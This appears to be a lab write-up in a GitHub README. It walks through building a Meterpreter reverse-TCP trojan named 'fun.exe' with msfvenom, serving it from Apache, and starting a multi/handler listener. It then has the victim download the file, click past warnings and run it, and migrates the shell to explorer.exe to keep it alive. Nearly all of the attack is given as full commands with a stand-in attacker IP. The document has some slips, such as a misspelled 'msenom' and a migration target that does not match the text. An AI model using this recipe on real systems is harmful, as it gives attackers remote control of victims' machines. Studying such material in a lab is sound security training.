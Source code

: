 Find the attackers ip address using ifconfig

### Output:
<img width="814" height="352" alt="image" src="https://github.com/user-attachments/assets/9d4fd0d1-1ae3-4ddf-823f-0b67aca944e7" />



Create a malicious executable file fun.exe using msenom command ``` msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe```

### Output:

<img width="809" height="470" alt="image" src="https://github.com/user-attachments/assets/3944e022-775a-4180-b151-6e213db23fb3" />


copy the fun.exe into the apache ```/var/www/html ```folder



Start apache server ```sudo systemctl apache2 start``` 



Check the status of apache2 ```sudo apache2 status```


Invoke msfconsole:

Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.

Starting a command and control Server ```use multi/handler``` ```set PAYLOAD windows/meterpreter/reverse_tcp``` ```set LHOST 0.0.0.0``` ```exploit```

### Output 
<img width="803" height="647" alt="image" src="https://github.com/user-attachments/assets/b9139fcc-d745-41d3-8454-c7e58e08cba7" />


On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine: ```http://192.168.1.2/fun.exe``` The file "fun.exe" downloads.



Bypass any warning boxes, double-click the file, and allow it to run.
On kali give the command exploit

<img width="1081" height="715" alt="image" src="https://github.com/user-attachments/assets/8749fcb5-d817-4e72-bfb7-2c88ec56bfdd" />



To see a list of processes, at the meterpreter > prompt, execute this command: ps ⇒ can see the fun.exe process running with pid 1156

The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost. To become more persistent, we'll migrate to a process that will last longer. Let's migrate to the winlogon process. At the meterpreter > prompt, execute this command:

migrate -N explorer.exe at meterpreter > prompt, execute this command: netstat A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below. Notice the "PID/Program name" value for this connection, which is redacted
